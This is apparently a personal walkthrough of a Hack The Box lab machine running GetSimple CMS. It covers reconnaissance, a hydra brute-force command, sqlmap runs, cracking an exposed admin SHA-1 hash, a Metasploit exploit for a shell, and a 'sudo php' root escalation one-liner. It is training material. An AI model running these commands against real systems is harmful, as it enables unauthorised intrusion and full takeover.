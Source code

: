 ```yaml
---
title: "Htb_writeup_0"
date: 2023-05-01T15:26:31+02:00
draft: false
toc: false
images:
tags: 
  - untagged
---
```


# Target info
- Target ip: 10.129.116.132

Did an nmap scan `nmap -sV --open -A 10.129.116.132 > initial_scan.txt`
# Ports
```nmap-scan
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Welcome to GetSimple! - gettingstarted
|_http-robots.txt: 1 disallowed entry 
|_/admin/
```

Checked the website with `Crtl + u` on Firefox. Found the host `gettingstarted.htb`. Added it to `/etc/hosts`.
It also says that the website uses the GetSimple CMS.
/admin/ seems interesting. Let's check it out.
There is a login portal for admins.
Performing a gobuster scan. Found the following interesting paths:
```gobuster-scan
/plugins
/data
/backups
```

Found a plugin `InnovationPlugin` in `/plugins`. Let's search for vulns.
Nothing for the plugin, but found something, [this exploit](https://www.exploit-db.com/exploits/40008) for the Getsimple CMS.
We don't know the version of the plugin, so let's see if it's vulnerable and try to get a reverse shell.
So, we can use it, after we login to the admin page. We have our way in, now we need to find a way to get the admin password, or login to the admin panel in some other way. I'll try hydra, and see if there is no blacklisting in place.
Let's build the command. First let's get rockyou.
The request for login has the format:
`http://gettingstarted.htb/admin/index.php?userid=username&pwd=password&submitted=Login`
Let's try
hydra -L ~/gs/user-dict.txt -P ~/rockyou/rockyou.txt gettingstarted.htb http-form-post '/admin/index.php:userid=^USER^&pwd=^PASS^&submitted=Login:F=Login failed. Please double check'
A lof of false positives, not sure why. Probably overloaded the server, needed to restart the machine. The found passwords don't seem to work.

Trying SQLMAP with a request copied from burp.
`sqlmap -r gs/login_r.txt -p pwd --risk 3 --level 5 --batch`
SQMap scan complete, doesn't seem to be injectable. Gonna retry with the user param.
`sqlmap -r gs/login_r.txt -p userid --risk 3 --level 5 --batch`
SQLMAP in progress #tochange

Found admin credentials while going trough the /data subfolder in:
`http://gettingstarted.htb/data/users/admin.xml`
No idea why I didn't try this sooner. It's always the easy answer, isn't it?
```xml
<item>
	<USR>admin</USR>
	<NAME/>
	<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
	<EMAIL>admin@gettingstarted.com</EMAIL>
	<HTMLEDITOR>1</HTMLEDITOR>
	<TIMEZONE/>
	<LANG>en_US</LANG>
</item>
```
So we got the credential pair of
admin:d033e22ae348aeb5660fc2140aec35850c4da997
The password in this format doesn't work. It's probably hashed, or encoded. Let's try decoding it first with cyberchef, and if that doesn't work, we try hashcat.
Decoding in cyberchef doesn't seem to work. Let's try to identify the type of hash then. 
`hashidentifier d033e22ae348aeb5660fc2140aec35850c4da997`
gives the following results
```hashindentifier-results
Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
```
Ok. I would guess it's SHA1 or MySQL5 SHA-1. Let's try to crack both in rockyou with hashcat and see how it goes.
`hashcat -m 100 -a 3 -o outhash.txt d033e22ae348aeb5660fc2140aec35850c4da997`
It was indeed SHA1. The cracked hash is `admin`. Admin. Really? I could've checked that. xD
Let's use the exploit we found earlier to gain a shell.
Seems like the button is broken, due to Flash Player getting discontinued. Let's try to find vulns in metasploit. Found `exploit/multi/http/getsimplecms_unauth_code_exec`
Let's try that
Okay, the exploit worked, I got a shell. Upgraded it with
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
We are logged in as the `www-data` user. We have enough privelage, to get the user flag from `/home/mrb3n/user.txt`, so we cat it out. Nice.

# Privelage Escalation
Let's try `LinEnum.sh` first, since this is what HTB reccomended.
But before that, it would be nice to check if we can get an SSH session going.
We cannot. Before even uploading the script, I checked for what we can do as root without a password, with `sudo -l`
Bingo! We can run `/usr/bin/php` from the current user. Let's try to leverage that.
GTFOBins shows us that we can use `sudo php -r "system('/bin/bash');"` to get sudo access. Let's try that.
And it worked! We cat the flag
`cat /root/root.txt`

# Summary
## Path taken
1. Recon
2. Use metasploit to get a shell
3. Get the user flag
4. Use PHP to escalate the privelages to root
5. Get the root flag
## Conclusions
Should probably see everything I can with the browser and Burp, before moving on to automated tools. Check every potential file of interest.

